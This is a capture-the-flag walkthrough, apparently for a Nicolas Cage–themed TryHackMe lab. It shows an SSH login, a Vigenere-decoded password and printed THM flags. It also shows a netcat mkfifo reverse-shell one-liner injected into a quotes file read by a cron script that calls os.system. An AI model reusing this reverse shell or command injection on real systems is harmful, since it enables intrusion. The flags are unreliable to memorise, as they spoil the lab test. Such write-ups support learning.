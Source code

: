 weston:Mydadisghostrideraintthatcoolnocausehesonfirejokes


```
                                                                                   
┌──(kali㉿kali)-[~/Downloads]
└─$ ssh weston@10.10.85.175                                  
The authenticity of host '10.10.85.175 (10.10.85.175)' can't be established.
ECDSA key fingerprint is SHA256:5SfBwCWS7eOa++Pxtlamyng8cPcCWV3yaRPL2zXFcYg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.85.175' (ECDSA) to the list of known hosts.
weston@10.10.85.175's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jul 10 18:01:50 UTC 2021

  System load:  0.31               Processes:           98
  Usage of /:   20.9% of 19.56GB   Users logged in:     0
  Memory usage: 15%                IP address for eth0: 10.10.85.175
  Swap usage:   0%


39 packages can be updated.
0 updates are security updates.


         __________
        /\____;;___\
       | /         /
       `. ())oo() .
        |\(%()*^^()^\
       %| |-%-------|
      % \ | %  ))   |
      %  \|%________|
       %%%%
Last login: Tue May 26 10:58:20 2020 from 192.168.247.1
weston@national-treasure:~$ 
```















### from email_3

Hey Son

Buddy, Sean left a note on his desk with some really strange writing on it. I quickly wrote
down what it said. Could you look into it please? I think it could be something to do with his
account on here. I want to know what he's hiding from me... I might need a new agent. Pretty
sure he's out to get me. The note said:

==haiinspsyanileph==

The guy also seems obsessed with my face lately. He came him wearing a mask of my face...
was rather odd. Imagine wearing his ugly face.... I wouldnt be able to FACE that!! 
hahahahahahahahahahahahahahahaahah get it Weston! FACE THAT!!!! hahahahahahahhaha
ahahahhahaha. Ahhh Face it... he's just odd. 

Regards

The Legend - Cage


```
cage@national-treasure:~$ cat Super_Duper_Checklist 
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{M37AL_0R_P3N_T35T1NG}
```


haiinspsyanileph
vinegere decode KEY = FACE
cageisnotalegend








getting cage user

```
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files/.quotes
                                                                               
Broadcast message from cage@national-treasure (somewhere) (Sat Jul 10 21:30:01 
                                                                               
I told you I'd share my ticket. I never planned on sharing my heart. Maybe I could get lucky twice today. — It Could Happen to You
                            
```

```
weston@national-treasure:/$ cat /opt/.dads_scripts/spread_the_quotes.py
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)

```


reverse shell as cage

```
weston@national-treasure:/$ find / -type f -user cage 2>/dev/null
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files/.quotes
```


```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.6.65.43 9001 >/tmp/f```

```echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.6.65.43 9001 >/tmp/f" > /opt/.dads_scripts/.files/.quotes```

stabilize,
turn off shell, 

```echo "Hello World" > /opt/.dads_scripts/.files/.quotes```
                          
escalate cage to root

linpeas says to go to groups, 

```
cage@national-treasure:/$ su root
Password: 
root@national-treasure:/# id
uid=0(root) gid=0(root) groups=0(root)
root@national-treasure:/# cat /root/root.txt
cat: /root/root.txt: No such file or directory
root@national-treasure:/# cd /
root@national-treasure:/# ls
bin    dev.null    initrd.img.old  media  root  srv       usr
boot   etc         lib             mnt    run   swap.img  var
cdrom  home        lib64           opt    sbin  sys       vmlinuz
dev    initrd.img  lost+found      proc   snap  tmp       vmlinuz.old
root@national-treasure:/# cd root
root@national-treasure:~# ls
email_backup
root@national-treasure:~# ls -la
total 52
drwx------  8 root root  4096 May 26  2020 .
drwxr-xr-x 24 root root  4096 May 26  2020 ..
lrwxrwxrwx  1 root root     9 May 26  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  3106 Apr  9  2018 .bashrc
drwx------  2 root root  4096 May 26  2020 .cache
drwxr-xr-x  2 root root  4096 May 25  2020 email_backup
drwx------  3 root root  4096 May 26  2020 .gnupg
drwxr-xr-x  3 root root  4096 May 25  2020 .local
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
drwx------  2 root root  4096 May 25  2020 .ssh
drwxr-xr-x  2 root root  4096 May 26  2020 .vim
-rw-------  1 root root 11692 May 26  2020 .viminfo
root@national-treasure:~# cd email_backup/
root@national-treasure:~/email_backup# ls
email_1  email_2
root@national-treasure:~/email_backup# cat email_1
From - SeanArcher@BigManAgents.com
To - master@ActorsGuild.com

Good Evening Master

My control over Cage is becoming stronger, I've been casting him into worse and worse roles.
Eventually the whole world will see who Cage really is! Our masterplan is coming together
master, I'm in your debt.

Thank you

Sean Archer
root@national-treasure:~/email_backup# cat email_2
From - master@ActorsGuild.com
To - SeanArcher@BigManAgents.com

Dear Sean

I'm very pleased to here that Sean, you are a good disciple. Your power over him has become
strong... so strong that I feel the power to promote you from disciple to crony. I hope you
don't abuse your new found strength. To ascend yourself to this level please use this code:

THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}

Thank you

Sean Archer
root@national-treasure:~/email_backup#
```